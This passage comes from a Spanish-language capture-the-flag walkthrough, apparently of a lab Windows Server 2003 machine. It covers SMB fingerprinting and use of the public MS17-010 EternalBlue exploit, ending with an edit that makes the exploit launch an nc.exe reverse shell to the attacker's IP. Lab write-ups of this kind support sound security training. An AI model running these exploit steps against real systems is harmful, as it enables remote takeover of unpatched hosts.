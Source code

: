 ```bash
```

Ahora validamos que tenemos el puerto 445 en escucha en nuestra máquina:

```bash
❯ netstat -nat | grep "445"
tcp        0      0 127.0.0.1:445           0.0.0.0:*               LISTEN     
tcp6       0      0 ::1:445                 :::*                    LISTEN
```

También podríamos validar con `crackmapexec` recordando que debemos apuntar a nuestra loopback:

```bash
❯ crackmapexec smb 127.0.0.1
SMB         127.0.0.1       445    GRANNY           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANNY) (domain:granny) (signing:False) (SMBv1:True)
```

Debido a la versión de sistema operativo y versión de la aplicación SMB, debemos estar pensando en el **Eternal Blue**; así que nos descargamos el exploit:

```bash
❯ git clone https://github.com/worawit/MS17-010
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 731.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.
```

Nos metemos en la carpeta y corremos el archivo `checker.py` para validar si la máquina es vulnerable:

```bash
❯ python checker.py 127.0.0.1
Target OS: Windows Server 2003 R2 3790 Service Pack 2
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (32 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

Vemos que tiene la leyenda ***OK (32 bit)*** para los *named pipes* **samr** y **lsarpc**; es decir, podemos ejecutar el exploit en la máquina, que para este caso, ocuparemos el `zzz_exploit.py` modificandolo un poco. Las modificaciones que haremos serán las siguientes:

- En la función `def smb_pwn(conn, arch):` comentaremos las siguientes lineas:
  - \#print('creating file c:\\pwned.txt on the target')
  - \#tid2 = smbConn.connectTree('C$') 
  - \#fid2 = smbConn.createFile(tid2, '/pwned.txt')
  - \#smbConn.closeFile(tid2, fid2)
  - \#smbConn.disconnectTree(tid2)
 - Descomentamos la siguiente linea:
   - service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
 - Y la cambiamos a entablarnos una reverse shell con `nc.exe`:
   - service_exec(conn, r'cmd /c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.16 443')
 